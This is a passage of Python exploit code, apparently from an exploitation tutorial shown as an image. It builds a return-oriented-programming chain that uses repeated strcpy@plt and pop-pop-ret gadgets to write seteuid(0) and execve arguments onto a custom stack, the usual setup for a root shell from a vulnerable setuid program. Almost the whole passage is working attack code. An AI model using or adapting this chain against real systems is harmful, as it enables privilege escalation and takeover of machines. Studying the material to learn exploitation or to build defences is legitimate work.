 ``` python
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(seteuid_null_arg)
#Below stack frames are for strcpy (to copy execve_arg1  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct1)
#Below stack frames are for strcpy (to copy execve_arg2  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct1)
#Below stack frames are for strcpy (to copy execve_arg3  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
```